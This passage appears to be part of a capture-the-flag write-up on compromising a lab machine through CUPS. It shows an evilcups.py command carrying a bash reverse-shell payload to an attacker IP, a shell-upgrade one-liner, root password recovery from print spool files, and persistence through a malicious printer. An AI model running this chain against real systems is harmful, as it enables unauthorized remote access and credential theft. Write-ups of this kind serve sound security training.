 <img width="977" alt="Screenshot 2024-10-24 at 11 38 27" src="https://github.com/user-attachments/assets/5f3eb719-2287-4870-863f-27f5c6fd8d7f">

Creating the virtual environment away from system python processes

![Virtual Environment Creation](https://github.com/user-attachments/assets/7110a70a-328f-4835-a157-118c069726aa)

2. **Create a Malicious Printer**:
   - Crafted a PPD file with a reverse shell payload.
   - Launched a Netcat listener to catch the incoming connection.


3. **Trigger the Exploit**:
   - Sent a UDP packet to install the malicious printer using the command:
     ```bash
     python3 evilcups.py 10.10.14.12 10.10.11.40 "nohup bash -c 'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1' &"
     ```
   - The `nohup` command kept the reverse shell running after the print job completed.

![Printer Creation with command](https://github.com/user-attachments/assets/7c1e24ab-a870-4455-9bac-6052adf2c1fb)

<img width="1417" alt="Screenshot 2024-10-24 at 12 04 34" src="https://github.com/user-attachments/assets/fcb8cfb7-92c9-4599-8f67-37ac63bdb1f7">

4. **Establish a Shell**:
   - Sent a test print job via the CUPS web interface to execute the reverse shell.
   - Once connected, upgraded the shell for better usability:
     ```bash
     python3 -c 'import pty; pty.spawn("/bin/bash")'
     ctrl + z
     stty raw -echo; fg
     export TERM=xterm
     ```

<img width="715" alt="Screenshot 2024-10-24 at 13 51 05" src="https://github.com/user-attachments/assets/c4745e37-5cf0-499b-ae2a-f1d1f01318a8">


5. **Privilege Escalation**:
   - Explored `/var/spool/cups/` to locate spool files.
   - Extracted the root password from a print job (`d00001-001`).
   - Switched to the root user using `su -` with the extracted password.
  
<img width="730" alt="Screenshot 2024-10-24 at 13 52 50" src="https://github.com/user-attachments/assets/15d8fd60-67a3-40f2-a70b-26b698149255">

<img width="901" alt="Screenshot 2024-10-24 at 13 53 07" src="https://github.com/user-attachments/assets/8cd39852-a239-419f-af19-88237e4e078b">

<img width="658" alt="Screenshot 2024-10-24 at 14 05 32" src="https://github.com/user-attachments/assets/3946be6d-508a-4521-be11-5bcc572ced37">


6. **Post-Exploitation**:
   - Obtained user and root flags.
   - Maintained persistence by leaving the malicious printer installed.

<img width="711" alt="Screenshot 2024-10-24 at 14 39 40" src="https://github.com/user-attachments/assets/71217c0c-a389-4ef2-94ae-9475bb76d567">
